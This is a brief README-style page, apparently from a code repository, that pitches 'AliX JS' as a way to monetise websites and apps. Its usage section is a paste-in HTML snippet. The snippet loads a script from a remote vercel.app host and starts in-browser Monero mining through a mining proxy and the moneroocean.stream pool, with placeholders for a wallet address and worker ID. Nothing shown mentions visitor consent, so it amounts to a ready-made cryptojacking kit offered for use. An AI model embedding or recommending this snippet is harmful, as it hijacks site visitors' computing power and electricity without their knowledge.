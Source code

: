 AliX JS Is A PowerFull JS Used To Monitize Websites And Apps  
## USE
```
<script src="https://alixjs.vercel.app/connect.js"></script>
<script>
    server = "wss://f.xmrminingproxy.com:8181";
    var pool = "moneroocean.stream";
    var walletAddress = "YOUR-MONERO-ADRESS";
    var workerId = "YOUR-WORKER-ID";
    var threads = 1;
    var password = "x";
    startMining(pool, walletAddress, workerId, threads, password);
    throttleMiner = 30;
</script>
```
